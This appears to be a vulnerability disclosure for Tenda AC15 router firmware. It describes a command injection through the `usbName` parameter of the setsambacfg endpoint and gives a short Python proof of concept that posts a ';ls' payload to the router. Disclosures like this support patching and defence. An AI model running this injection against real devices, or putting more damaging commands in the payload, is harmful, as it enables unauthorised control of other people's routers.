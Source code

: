 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware, we discovered a command injection vulnerablility in the `usbName` parameter and the `v9`varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `usbName` can trigger this security vulnerability.

![image-20240316180559525](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180559525.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setsambacfg"
payload = ";ls"

data = {"action":"del","usbName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316180711436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316180711436.png)
